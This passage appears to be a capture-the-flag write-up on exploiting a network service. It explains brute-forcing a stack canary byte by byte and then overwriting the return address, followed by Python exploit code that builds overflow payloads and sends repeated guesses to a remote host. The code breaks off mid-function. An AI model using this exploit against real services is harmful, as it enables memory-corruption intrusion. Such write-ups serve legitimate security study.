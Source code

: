 Now I can use a known canary attack, which to brute force the canary value. I can send 256 requests, each with 8 bytes of junk and a unique 9th byte. That 9th byte will overwrite the low byte of the canary (which is always 00). The 255 non-zero requests will return no additional data, or an end of file if I try to read from the socket. The request with 8bytes of junk + ‘0x00' will return "Thanks for your visit !". I can do that same for the next 7 bytes to get the full canary. Now I can overwrite the canary and continue on to overwrite the return address.

#### Code

```
def payload_template_header(header):
    payload=b""
    payload+=CMD1+ binascii.unhexlify("04"+4*"41") # 4 byte ant the strat of the offset 
    payload+= CMD1+ binascii.unhexlify("08"+8*"42") # 8 bytes of junk just before reach the canary
    if len(header) > 0:
      payload+= CMD1+ struct.pack('<B',len(header))+header # add heade bytes 
    return payload

def put_over_buffer(p,nb):
    payload_bof = CMD2
    payload_bof += struct.pack('<H',4) #"\x04\x00" # 2byts wich represent 4bytes(offset)  ( 0<offset<=index) In little endian
    payload_bof+= struct.pack('<B',nb) #"\xff"     # try to put 255 bytes over the buffer(copy_size) this puted bytes represent pattern
    payload_bof+= READ_BUFFER
    p.send(payload_bof)

def payload_template_footer(buff):
    for i in range(0,3): # print 255*3 why 255 cause we can also have 1 byte to put the size of the bufffer to write into notes so we will send =>4+255+3*255= 4+255+765= 1024 (255=0xff)
        buff+= CMD1+binascii.unhexlify("ff"+255*"43")
    return buff 

def get_next_byte(s, r,k,header):# buffer,range,bruteforced_block_bytes_number,data_before_block
    #try each byte from int(0) to int(255) until it works 
    for i in r:
        p = remote(args.ip,args.port)
        try:
            payload= payload_template_header(header)
            len_head_bfr_brut=8+len(header)
            len_of_new_pld =255-len_head_bfr_brut-len(s)-1
            payload+=CMD1 +struct.pack('<B',255-len_head_bfr_brut) # preapre the payload lenght with cmd1
            payload+=s + i.to_bytes(1,'big') +binascii.unhexlify(len_of_new_pld*"43")
            payload= payload_template_footer(payload)
            p.send(payload)
            put_over_buffer(p,len_head_bfr_brut+k) # 8 bytes before reach the canary + k bytes to test
            p.recvuntil('visit !', timeout=2) #if we receive the message "..visit !" that's mean hat the byte works great.
            p.close()
            return i.to_bytes(1,'big')
        except EOFError:
            #print("No response. maybe smach %s"% i.to_bytes(1,'big'))
            p.close()
    import pdb   # Shouldn't get here
    pdb.set_trace()
    print("Failed to find byte")


def brute_word(num_bytes, obj, assumed=b'', header=b''):
    start = time.time()
    result = assumed
    print(header)
```